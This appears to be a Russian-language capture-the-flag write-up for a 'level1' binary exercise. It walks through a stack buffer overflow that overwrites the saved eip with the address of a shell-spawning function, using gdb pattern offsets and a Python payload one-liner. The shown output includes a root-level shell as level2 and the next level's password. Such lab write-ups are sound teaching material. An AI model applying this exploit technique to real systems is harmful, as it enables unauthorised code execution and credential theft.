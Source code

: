 ## level1
Мы видим две функции: `main`, а также неиспользуемую функцию `run`, которая как раз и запускает оболочку `/bin/sh`. Наша цель – заставить `main` перейти к `run` перед завершением программы.

Рассмотрим её содержимое (с помощью [бинарного анализатора](https://cloud.binary.ninja/)):

![](../../docs/img/level1_1.png)

Программа использует буфер размера `0x40`, куда записывается строка из `STDIN`. Нам нужно совершить атаку [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow) для того, чтобы перезаписать сохраненное на стеке значение `eip`  на адрес функции `run` , равный `0x08048444`. 

Чтобы найти отступ между началом буфера и сохраненным `eip` регистром, воспользуемся инструментом [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/). 

```sh
$ gdb level1
(gdb) r <<< "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

(gdb) p $eip
$1 = (void (*)()) 0x63413563
```

Введя значение `0x63413563` в pattern generator, мы находим, что отступ равен 76. Значит, необходимая нам строка ввода есть  `'a'*76 + '\x44\x84\x04\x08'`, где мы записываем адрес `run` в обратном порядке ввиду того, что архитектура x86 использует [порядок байтов](https://ru.wikipedia.org/wiki/Порядок_байтов) от младшего к старшему. 

Однако это еще не все:

```sh
$ python -c "print 'a'*76 + '\x44\x84\x04\x08'" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Программа `/bin/sh`  выходит сразу же после прочтения EOF в потоке `stdin`. Чтобы предотвратить закрытие стандартного ввода, будем передавать команды через “прокладку” `cat`:

```sh
$ (python -c "print 'a'*76 + '\x44\x84\x04\x08'"; cat) | ./level1
Good... Wait what?
whoami
level2
cd ..; cat level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```